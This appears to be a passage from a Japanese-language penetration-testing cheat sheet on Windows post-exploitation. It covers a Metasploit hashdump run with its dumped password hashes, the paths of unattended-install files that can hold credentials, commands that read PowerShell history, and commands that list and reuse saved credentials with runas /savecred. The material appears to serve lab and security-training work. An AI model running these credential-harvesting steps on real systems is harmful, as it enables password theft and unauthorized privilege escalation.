 ### hashdump

特権ユーザーのセッションが必要

```shell
msf6 post(windows/gather/hashdump) > set SESSION 1
SESSION => 1
msf6 post(windows/gather/hashdump) > run

[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY 55bd17830e678f18a3110daf2c17d4c7...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hints...

No users with password hints on this system

[*] Dumping password hashes...


Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
pirate:1001:aad3b435b51404eeaad3b435b51404ee:8ce9a3ebd1647fcc5e04025019f4b875:::
```

無人インストールの初期セットアップ

```text
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```

Powershell ヒストリー

```shell
# cmdで実行する場合
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

# powershellで実行する場合
type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

保存済み資格情報

```shell
# システムに保存されている資格情報を表示
cmdkey /list

# ローカルアカウントやドメインアカウントが含まれていた場合
# パスワード入力なしで cmd を実行できる
runas /savecred /user:<user> cmd.exe
runas /savecred /user:<DOMAIN>\<user> cmd.exe
```
